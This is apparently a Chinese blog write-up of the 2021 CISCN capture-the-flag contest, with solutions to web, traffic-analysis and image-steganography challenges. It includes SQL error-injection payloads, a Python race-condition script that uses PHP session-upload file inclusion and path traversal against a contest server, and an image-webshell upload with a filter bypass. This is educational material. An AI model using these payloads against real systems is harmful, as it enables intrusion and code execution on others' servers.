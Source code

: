 ```yaml
---
layout: post
title: '2021CISCN'
subtitle: 'CISCN'
date: 2021-05-31
categories: CTF
cover: 'https://z3.ax1x.com/2021/05/31/2ezYxU.png'
tags: CTF
---
```

## WEB题目
#### easy sql
登陆页面，sql注入

passwd处报错注入：
```uname=admin&passwd=1') and updatexml(1,concat(0x7e,(select*from (select * from flag as a join flag as b using(id,no))as c),0x7e),1)#&Submit=%E7%99%BB%E5%BD%95```
![](https://z3.ax1x.com/2021/05/31/2mp3cT.png)
报错出字段，继续
```uname=admin&passwd=1')||updatexml(1,((select `cb9704e8-dfcb-4feb-90c7-d84c92ef0062` from flag limit 0,1)),1)%23#&Submit=%E7%99%BB%E5%BD%95```
![](https://z3.ax1x.com/2021/05/31/2mp6De.png)

### easy-source
原题：https://r0yanx.com/2020/10/28/fslh-writeup/

直接访问；?rc=ReflectionMethod&ra=User&rb=q&rd=getDocComment
### tiny_traffic

开局流量包，直接导出全部内容
![](https://z3.ax1x.com/2021/05/31/2m9pKU.png)
lag_warpper导出后没用，无视

先导出就是

把test和secret后缀改为br，解压导出内部内容

test的提取后内容
syntax = "proto3";

message PBResponse {
  int32 code = 1;
  int64 flag_part_convert_to_hex_plz = 2;
  message data {
    string junk_data = 2;
    string flag_part = 1;
  }
  repeated data dataList = 3;
  int32 flag_part_plz_convert_to_hex = 4;
  string flag_last_part = 5;
}

message PBRequest {
  string cate_id = 1;
  int32 page = 2;
  int32 pageSize = 3;
}
是proto3，推测利用这个对sercet进行加密，那么直接解密就好

把test重命名为pb.proto，直接运行

protoc –decode=PBResponse pb.proto < secret
![](https://z3.ax1x.com/2021/05/31/2m9Fa9.png)
把非16进制的内容转换为hex就行了

最后拼接

CISCN{e66a22e23457889b0fb1146d172a38dc}

### middle_soure
解题思路
有个泄露的文件，包含查看phpinfo,得到session_save_path
利用session.upload_progress进行文件包含，找个脚本跑下
import io
import sys
import requests
import threading

from requests.models import Response

sessid = 'wa1ki0g'

def POST(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        session.post(
            'http://124.70.105.172:23077/',
            data={"PHP_SESSION_UPLOAD_PROGRESS":'<?php var_dump(scandir("/etc"));?>'},
            files={"file":('q.txt', f)},
            cookies={'PHPSESSID':sessid}
        )

def READ(session):
    while True:
        url="http://124.70.105.172:23077/"
        data1={
            'cf':f'../../../../../../../../../var/lib/php/sessions/fefcieaibf/sess_{sessid}'
        }
        response = session.post(url=url,data=data1)
        if 'passwd' not in response.text:
            print('llllll')
        else:
            print(response.text)
            sys.exit(0)

with requests.session() as session:
    t1 = threading.Thread(target=POST, args=(session, ))
    t1.daemon = True
    t1.start()

   READ(session)

无限往下递归，最后LFI包含下
flag在/etc/dfbbaaecc 目录的目录的目录的目录下面
![](https://z3.ax1x.com/2021/05/31/2m91IA.png)

### upload
解题思路
一上来就是图片马的二次渲染绕过，然后结合example.php后面我们知道，这里还要一zip来配合使用，达到的目的就是解压后有shell。
然后我们不慌不忙的掏出我们的图片马 ，再把他打包成压缩包。然后现在要绕过对于zip的绕过。上传解压马儿就可以了。
这里对于zip关键字的绕过
https://blog.rubiya.kr/index.php/2018/11/29/strtoupper/
可以参考上面这个
得到z%C4%B0p

图片马的最后记得加上
```#define width 1
   #define height```
php-gd2的那个图片马即可，
上传 解压
就在example下面 然后flag
![](https://z3.ax1x.com/2021/05/31/2m9RLF.png)

## MISC
## runing_pixel
使用gifsplitter2.0分离每一帧，一共有382帧：
![](https://z3.ax1x.com/2021/05/31/2mCCSP.png)
观察发现每个帧数的个位数为9的都是黄色的小人：
![](https://z3.ax1x.com/2021/05/31/2mCQyT.png)
然后转换成RGB，对比同一相位图片的像素状态
```from PIL import Image,ImageDraw
for i in range(0,382):
    dcy = Image.open('./{i}.bmp').convert("RGB")
    for p in range(0, dcy.size[0]):
        for q in range(0, dcy.size[1]):
            n = dcy.getpixel((p,q))
            if n == (233,233,233):
                dcy.putpixel((q,p), 0)
                dcy.save('{i}__.bmp')
                # dcy.show()```
根据字符蹦跶出来的顺序得到flag，合在一张图上是: 12504d0f-9de1-4b00-87a5-a5fdd0986a001
![](https://z3.ax1x.com/2021/05/31/2mCw6K.png)


